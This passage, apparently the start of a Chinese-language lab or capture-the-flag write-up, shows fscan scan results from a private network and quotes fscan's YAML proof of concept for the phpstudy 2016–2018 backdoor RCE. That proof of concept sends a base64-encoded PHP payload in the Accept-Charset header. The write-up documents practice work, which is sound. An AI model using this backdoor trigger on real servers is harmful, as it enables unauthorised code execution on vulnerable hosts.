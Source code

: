 ## 打靶过程

`fscan`扫

```bash
(icmp) Target 10.10.100.1     is alive
(icmp) Target 10.10.100.111   is alive
(icmp) Target 10.10.100.123   is alive
(icmp) Target 10.10.100.110   is alive
(icmp) Target 10.10.100.254   is alive
[*] Icmp alive hosts len is: 5
10.10.100.123:139 open
10.10.100.123:3306 open
10.10.100.111:22 open
10.10.100.110:22 open
10.10.100.123:445 open
10.10.100.123:80 open
10.10.100.123:135 open
[*] alive ports len is: 7
start vulscan
[*] NetInfo:
[*]10.10.100.123
   [->]WIN-7L13QFN61BN
   [->]10.10.100.123
[*] WebTitle: http://10.10.100.123      code:200 len:51     title:None
[+] http://10.10.100.123 poc-yaml-phpstudy-backdoor-rce
```

扫到`phpstudy-backdoor-rce`

看一下fscan的poc

```yaml
name: poc-yaml-phpstudy-backdoor-rce
set:
  r: randomLowercase(6)
  payload: base64("printf(md5('" + r + "'));")
rules:
  - method: GET
    path: /index.php
    headers:
      Accept-Encoding: 'gzip,deflate'
      Accept-Charset: '{{payload}}'
    follow_redirects: false
    expression: |
      response.body.bcontains(bytes(md5(r)))
detail:
  author: 17bdw
  Affected Version: "phpstudy 2016-phpstudy 2018 php 5.2 php 5.4"
  vuln_url: "php_xmlrpc.dll"
  links:
    - https://www.freebuf.com/column/214946.html
```
